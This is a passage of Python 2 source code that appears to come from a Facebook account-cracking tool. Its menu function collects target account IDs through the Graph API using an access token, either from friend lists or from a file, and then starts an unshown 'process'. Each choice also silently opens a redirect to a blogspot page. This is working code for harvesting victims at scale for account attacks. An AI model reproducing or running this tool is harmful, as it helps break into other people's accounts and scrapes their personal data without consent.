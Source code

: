 	print "[0] Back"
	print 50*"-"
	pak_action()

def pak_action():
	bpk = raw_input("\n  ▄︻̷̿┻̿═━一   ")
	if bpk =="":
		print "[!] Fill in correctly"
		pak_action()
	elif bpk =="1":
		os.system('clear')
		urllib2.urlopen("https://www.google.com/url?sa=t&source=web&rct=j&url=https://trickproof.blogspot.com/%3Fm%3D1&ved=2ahUKEwi87vKb9cPoAhVIxoUKHT2kBMEQFjAAegQIBBAB&usg=AOvVaw1MUpc0kk_u_Dr7q2z48zC1&cshid=1585630324556")
		print logo
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif bpk =="2":
		os.system('clear')
		urllib2.urlopen("https://www.google.com/url?sa=t&source=web&rct=j&url=https://trickproof.blogspot.com/%3Fm%3D1&ved=2ahUKEwi87vKb9cPoAhVIxoUKHT2kBMEQFjAAegQIBBAB&usg=AOvVaw1MUpc0kk_u_Dr7q2z48zC1&cshid=1585630324556")
		print logo
		idt = raw_input("[✓] Enter ID : ")
		os.system("clear")
		print logo
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			psb("[✓] Account  Name: "+op["name"])
			time.sleep(0.5)
		except KeyError:
			print"[!] ID Not Found!"
			raw_input("\n[Back]")
			pak_menu()
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif bpk =="3":
		os.system('clear')
		print logo
		try:
			idlist = raw_input('[✓] Enter File Path  : ')
			for line in open(idlist,'r').readlines():
				id.append(line.strip())
		except IOError:
			print '[!] File Not Found'
			raw_input('\n[ Back ]')
			pak_menu()
	elif bpk =="0":
		menu()
	else:
		print "[!] Fill in correctly"
		pak_action()
	xxx = str(len(id))
	psb ("[✓] Total Friends: "+xxx)
	time.sleep(0.5)
	psb ('[✓] Please wait, process is running ...')
	time.sleep(0.5)
	psb ('[!] To Stop Process Press CTRL Then Press z')
	time.sleep(0.5)